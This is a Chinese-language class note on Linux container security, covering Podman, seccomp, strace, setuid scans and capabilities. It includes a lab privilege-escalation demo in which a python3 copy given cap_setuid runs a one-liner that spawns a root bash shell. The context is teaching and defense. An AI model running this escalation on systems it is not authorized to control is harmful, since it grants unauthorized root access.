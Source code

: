 
# 2021/08/14(六)

## 技術

- Podman (Rootless Container)
    - 可使用 一般使用者, 便可用來操作 Container
- ps 監控程式使用範例:
    - `ps -eo user,pid,cmd,%mem,%cpu | head -n 4`
- 講師強調: Container 裡面, 不要有 seduid 的功能
    - 從根目錄開始掃, 列出所有 seduid 的檔案

```bash
$# sudo find / -user root -perm -4000 2>/dev/null | grep -E '^/bin|^/usr/bin'
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/su
/usr/bin/pkexec
```

- seccomp : Security Computing Mode
    > Seccomp is a useful feature provided by the Linux kernel since 2.6.12 and is used to control the syscalls made by a process. Seccomp has been implemented by numerous projects such as Docker, Android, OpenSSH and Firefox to name a few.
    - 用來防範 `user process` 以及 `System Library` 不正常呼叫 syscall
        - CentOS7 的 SELinux 只是 `seccomp` 的一部分

```bash
###  可用來查看 Linux 有無啟用 seccomp
$# cat /boot/config-$(uname -r) | grep CONFIG_SECCOMP
CONFIG_SECCOMP=y
CONFIG_SECCOMP_FILTER=y
```

- 課堂上使用 golang 做很多程式範例的 Demo, 為了讓 Golang 能使用到 seccomp, 所以需要安裝依賴:
    - `sudo apt install libseccomp-dev golang-github-seccomp-libseccomp-golang-dev`
- 用來追蹤程序呼叫了那些 syscall, 可使用 `strace`

```bash
$# strace -qcf mkdir /tmp/x
% time     seconds  usecs/call     calls    errors syscall
------ ----------- ----------- --------- --------- ----------------
26.73     0.000449          16        27           mmap
9.76      0.000164         164         1           execve
9.05      0.000152          19         8           openat
8.57      0.000144          16         9           mprotect
7.86      0.000132          13        10           close
7.20      0.000121          15         8           fstat
7.08      0.000119          14         8           pread64
6.49      0.000109          15         7           read
2.74      0.000046          46         1           mkdir
2.68      0.000045          15         3           brk
2.38      0.000040          20         2         2 access
2.08      0.000035          17         2         2 statfs
1.85      0.000031          15         2         1 arch_prctl
1.49      0.000025          12         2           rt_sigaction
1.13      0.000019          19         1           munmap
0.77      0.000013          13         1           prlimit64
0.71      0.000012          12         1           rt_sigprocmask
0.71      0.000012          12         1           set_tid_address
0.71      0.000012          12         1           set_robust_list
------ ----------- ----------- --------- --------- ----------------
100.00    0.001680                    95         5 total
```

- 可使用 `setcap` 來授予 程式, 具備 OOO 權限
    - 讓 python3 運行 process 的時候, 可具備 cap_setuid+ep 權限, ex:
        - `sudo setcap  cap_setuid+ep  /home/rbean/python3`
- 實作 「逃脫」
    - 讓程式具有 suid 功能的話, 駭入系統取得 root 權限的範例

```bash
### 查看系統具備 setuid 的程式有哪些(慎用!)
$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/home/rbean/python3 = cap_setuid+ep
# ↑ 掃描系統上 「/」, 具備 setuid 權限的程式

### 
user@~$ ./python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
root@us:~# whoami
root
# 一般使用者, 晉升成為 root @@!
```

```bash
### 
$# getcap -r / 2>/dev/null
/var/lib/docker/overlay2/585e44f91b78f8b88ab8399e0166076abb07903592118487552ba714a2d4d010/diff/usr/bin/newuidmap = cap_setuid+ep
/var/lib/docker/overlay2/585e44f91b78f8b88ab8399e0166076abb07903592118487552ba714a2d4d010/diff/usr/bin/ping = cap_net_admin,cap_net_raw+p
/var/lib/docker/overlay2/585e44f91b78f8b88ab8399e0166076abb07903592118487552ba714a2d4d010/diff/usr/sbin/arping = cap_net_raw+p
/var/lib/docker/overlay2/585e44f91b78f8b88ab8399e0166076abb07903592118487552ba714a2d4d010/diff/usr/sbin/clockdiff = cap_net_raw+p
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/arping = cap_net_raw+p
# 以上的程序, 都具備 setuid 的權限! 必須要慎重看待!!

$# sudo useradd -m -s /bin/bash danger_user
$# echo "danger_user:danger_user" | sudo chpasswd

設定 danger_user 家目錄中的 python3 命令檔, 具有 Capabilities setuid 權限, 代表 python3 所執行的 程式可設定 setuid 功能
$# sudo cp /usr/bin/python3  /home/danger_user 

$# sudo setcap  cap_setuid+ep  /home/danger_user/python3

$# ls -al  /home/danger_user/python3
-rwxr-xr-x 1 root root 5490352 Jul 21 14:15 /home/danger_user/python3

### 登入 danger_user
$ setcap cap_setuid+ep /home/rbean/python3
$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root# 
# 取得 root bash
```

- Container 是種技術架構, Docker 只是其中一家實作的廠商
    - podman
    - containerd
    - cri-o
- Linux 對於 Kernel 的防護措施:
    - seccomp
    - control group
    - linux capability
    - app armor
    - selinux

```bash
sudo mount -t overlay overlay \
    -o lowerdir=/home/bigred/ov2/lower, \
        upperdir=/home/bigred/ov2/upper, \
        workdir=/home/bigred/ov2/work  \
    /home/bigred/ov2/merged
```
